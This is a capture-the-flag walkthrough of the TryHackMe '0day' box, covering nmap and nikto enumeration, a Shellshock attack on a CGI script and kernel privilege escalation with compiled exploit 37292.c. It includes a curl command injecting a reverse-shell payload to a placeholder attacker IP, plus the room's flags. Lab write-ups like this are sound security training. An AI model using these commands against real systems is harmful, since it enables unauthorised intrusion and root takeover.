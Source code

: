 # Introduction

0day is a medium box on the TryHackMe platform. The box involves exploiting a website with shellshock and exploiting an outdated linux kernel

Scanning

To start our enumeration of the box we do an initial nmap scan. Using -sC for default scripts, -sV for version enumeration and -oA to output the results 

![2025-04-03_04-09](https://github.com/user-attachments/assets/3d03499b-4e54-43b1-8128-23829df30532)

The results of this nmap show 2 ports open:

port 80 which is a HTTP server.
Port 22 which is a SSH service

Our next step is to look into the HTTP server. Navigating there in the browser shows a site which looks like Ryan's portfolio page.
![image](https://github.com/user-attachments/assets/f2521554-1f6d-47f6-9d1a-d328cb8e40c7)

let’s enumerate this website and see what we can find

![image](https://github.com/user-attachments/assets/6225c5e3-abdf-4513-9802-4d4cd97afde6)

![image](https://github.com/user-attachments/assets/2fa14f5f-779b-4bb8-ab73-516e74ce3e87)

sudo nikto -h {target_ip}

![image](https://github.com/user-attachments/assets/0506f4cf-4705-4f83-827a-216d20bd8892)

curl –H ‘User-Agent: () { :;}; echo; echo; /bin/bash –i >& /dev/tcp/<attacker-ip>/4444 0>&1 ’ bash –s : ‘’ http://<ip-of-the-victim>/cgi-bin/test.cgi

![image](https://github.com/user-attachments/assets/2dc9944c-25ac-4ab8-bf90-88078ca9b52f)

![image](https://github.com/user-attachments/assets/f03f3400-be54-4e9d-adc4-3e3fa3fb7169)

THM{Sh3llSh0ck_r0ckz}

Privilege Escalation

![image](https://github.com/user-attachments/assets/b61c9c8e-9179-40fe-9b13-6783de7bd675)

![image](https://github.com/user-attachments/assets/33026a40-2a21-4c3e-913d-844fc57aa828)

![image](https://github.com/user-attachments/assets/99d7b487-dd66-4cad-980c-c91f0194b686)

![image](https://github.com/user-attachments/assets/1518b546-ea02-4ac6-a457-8064d1d6b11f)

export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin

gcc 37292.c -o 3

![image](https://github.com/user-attachments/assets/29a2299d-ca42-40f4-b470-e230883698dc)

we got root access

![image](https://github.com/user-attachments/assets/f416d31a-20c9-4e59-a433-b26d1b4f9520)

THM{g00d_j0b_0day_is_Pleased}











